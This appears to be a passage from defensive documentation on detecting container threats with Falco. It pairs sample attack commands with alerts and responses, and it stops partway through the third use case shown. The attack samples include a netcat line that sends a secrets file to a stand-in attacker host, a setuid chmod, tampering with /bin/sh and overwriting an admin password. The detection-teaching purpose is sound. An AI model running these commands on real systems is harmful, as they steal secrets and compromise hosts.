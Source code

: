 ### Use Case 3: Detect Unexpected Network Connection

**Scenario:** Cryptominer or data exfiltration attempt.

**Attack:**
```bash
# Malware opens outbound connection
curl http://malicious-mining-pool.com:3333
nc attacker.com 4444 < /var/secrets/database.txt
```

**Falco Detection:**
```
11:47:22.111222333: Error Unexpected outbound connection
  (connection=tcp://malicious-mining-pool.com:3333
  container=api
  process=curl
  direction=outbound
  proto=tcp
  pid=12347)
```

**Alert sent to:** PagerDuty, SIEM
**Response:** Block connection, isolate pod, forensics

### Use Case 4: Detect Privilege Escalation

**Scenario:** Attacker tries to escalate privileges.

**Attack:**
```bash
# Try to gain root
sudo su -
# Or modify privileged files
chmod 4755 /usr/bin/malware
```

**Falco Detection:**
```
11:48:01.444555666: Critical Privilege escalation attempt
  (user=app
  target_user=root
  command=sudo su -
  container=api
  pid=12348)
```

**Alert sent to:** PagerDuty (critical), SIEM
**Response:** Immediate pod termination, security incident

### Use Case 5: Detect File Modification

**Scenario:** Attacker modifies binaries or configs.

**Attack:**
```bash
# Modify system binaries
echo "backdoor" >> /bin/sh
# Or app configs
sed -i 's/admin_password=.*/admin_password=hacked/' /app/config.ini
```
